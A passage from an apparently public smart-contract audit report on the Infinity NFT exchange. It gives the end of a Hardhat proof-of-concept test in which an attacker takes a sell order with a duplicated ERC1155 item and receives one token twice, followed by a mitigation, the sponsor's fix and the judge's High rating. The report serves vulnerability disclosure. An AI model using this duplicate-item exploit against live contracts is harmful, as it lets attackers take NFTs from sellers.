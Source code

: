           // form matching nfts
          const nfts_ = [
            {
              collection: mock1155Contract1.address,
              tokens: [{ tokenId: 0, numTokens: 1 }]
            },
            {
              collection: mock1155Contract1.address,
              tokens: [{ tokenId: 0, numTokens: 1 }]
            }
          ];
    
          // approve currency
          let salePrice = getCurrentSignedOrderPrice(sellOrder);
          await approveERC20(hacker.address, token.address, salePrice, hacker, infinityExchange.address);
    
          // perform exchange
          await infinityExchange.connect(hacker).takeOrders([sellOrder], [nfts_]);
    
          // owners after sale
          // XXX: note that the user's intention is to send mock1155Contract1 x 1 + mock1155Contract2 x 1
          // When mock1155Contract1 is much more expensive than mock1155Contract2, user suffers from huge loss
          expect(await mock1155Contract1.balanceOf(hacker.address, 0)).to.equal(2);
        });
      });
    });

And run

    $ npx hardhat test --grep PoC
    
      PoC
        StealERC1155ByDuplicateItems
          ✓ Passed test denotes successful hack

Note that the passed test denotes a successful hack.

### [](#recommended-mitigation-steps-1)Recommended Mitigation Steps

I would suggest a more gas-consuming approach by hashing all the items and putting them into a list. Then checking whether the lists match.

**[nneverlander (Infinity) confirmed and resolved](https://github.com/code-423n4/2022-06-infinity-findings/issues/12#issuecomment-1162897771):**

> Fixed in [https://github.com/infinitydotxyz/exchange-contracts-v2/commit/bbbd362f18a2bb1992620a76e59621132b8a3d8c](https://github.com/infinitydotxyz/exchange-contracts-v2/commit/bbbd362f18a2bb1992620a76e59621132b8a3d8c).

**[HardlyDifficult (judge) commented](https://github.com/code-423n4/2022-06-infinity-findings/issues/12#issuecomment-1179560900):**

> This is a High risk issue. The PoC demonstrates how a maker specifying a bundle of NFTs could incorrectly have one ERC1155 item in that bundle processed several times by the taker - the bundle is not fully accepted as expected, the item processed multiple times is essentially overfilled, and this may be abused to the taker’s advantage when the NFTs are not valued the same.
